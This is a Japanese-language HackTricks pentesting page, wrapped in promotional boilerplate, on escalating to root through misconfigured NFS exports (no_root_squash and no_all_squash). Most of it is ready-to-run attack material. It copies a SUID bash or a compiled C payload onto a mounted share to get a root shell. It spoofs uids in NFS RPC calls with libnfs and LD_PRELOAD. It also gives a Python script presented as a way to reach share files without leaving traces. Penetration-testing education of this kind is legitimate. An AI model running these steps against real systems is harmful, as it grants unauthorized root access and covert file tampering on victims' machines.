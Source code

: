{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


_ **/etc/exports** _ ファイルを読み、**no\_root\_squash**として設定されているディレクトリが見つかった場合、**クライアントとして**それに**アクセス**し、そのディレクトリの中に**ローカルの**マシンの**root**のように**書き込む**ことができます。

**no\_root\_squash**: このオプションは基本的に、クライアントのrootユーザーにNFSサーバー上のファイルにrootとしてアクセスする権限を与えます。これにより、深刻なセキュリティ上の問題が生じる可能性があります。

**no\_all\_squash:** これは**no\_root\_squash**オプションに似ていますが、**非rootユーザー**に適用されます。例えば、nobodyユーザーとしてシェルを持ち、/etc/exportsファイルを確認し、no\_all\_squashオプションが存在し、/etc/passwdファイルを確認し、非rootユーザーをエミュレートし、そのユーザーとしてsuidファイルを作成（nfsを使用してマウント）します。その後、nobodyユーザーとしてsuidを実行し、異なるユーザーになります。

# Privilege Escalation

## Remote Exploit

この脆弱性を見つけた場合、次のように悪用できます：

* **そのディレクトリを**クライアントマシンに**マウントし、rootとして**マウントされたフォルダ内に**/bin/bash**バイナリをコピーし、**SUID**権限を与え、**被害者**マシンからそのbashバイナリを実行します。
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **クライアントマシンでそのディレクトリをマウントし、** マウントされたフォルダ内に **rootとして** SUID権限を悪用するコンパイル済みペイロードをコピーし、それに **SUID** 権限を与え、**被害者** マシンからそのバイナリを **実行** します（ここにいくつかの[C SUIDペイロード](payloads-to-execute.md#c)があります）。
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
注意してください、もしあなたが**あなたのマシンから被害者のマシンへのトンネルを作成できるなら、必要なポートをトンネリングしてこの特権昇格を悪用するためにリモートバージョンを使用することができます**。\
次のトリックは、ファイル`/etc/exports`が**IPを示している場合**です。この場合、**リモートエクスプロイトを使用することはできず**、**このトリックを悪用する必要があります**。\
エクスプロイトが機能するためのもう一つの必要条件は、**`/etc/export`内のエクスポートが`insecure`フラグを使用していること**です。\
\--_もし`/etc/export`がIPアドレスを示している場合、このトリックが機能するかどうかはわかりません_--
{% endhint %}

## Basic Information

このシナリオは、ローカルマシン上のマウントされたNFS共有を悪用し、クライアントが自分のuid/gidを指定できるNFSv3仕様の欠陥を利用して、無許可のアクセスを可能にします。悪用には、NFS RPCコールの偽造を可能にするライブラリ[libnfs](https://github.com/sahlberg/libnfs)を使用します。

### Compiling the Library

ライブラリのコンパイル手順は、カーネルバージョンに基づいて調整が必要な場合があります。この特定のケースでは、fallocateシステムコールがコメントアウトされていました。コンパイルプロセスには、次のコマンドが含まれます：
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### 攻撃の実行

この攻撃は、特権をルートに昇格させ、シェルを実行するシンプルなCプログラム（`pwn.c`）を作成することを含みます。プログラムはコンパイルされ、結果として得られたバイナリ（`a.out`）は、RPC呼び出しでuidを偽装するために`ld_nfs.so`を使用して、suid rootで共有に配置されます。

1. **攻撃コードをコンパイルする:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **攻撃を共有に配置し、uidを偽装してその権限を変更する:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **攻撃を実行してルート権限を取得する:**
```bash
/mnt/share/a.out
#root
```

## ボーナス: NFShellによるステルスファイルアクセス
ルートアクセスを取得した後、所有権を変更せずにNFS共有と対話するために（痕跡を残さないために）、Pythonスクリプト（nfsh.py）が使用されます。このスクリプトは、アクセスされるファイルのuidに一致するようにuidを調整し、権限の問題なしに共有上のファイルと対話できるようにします:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
実行するには：
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
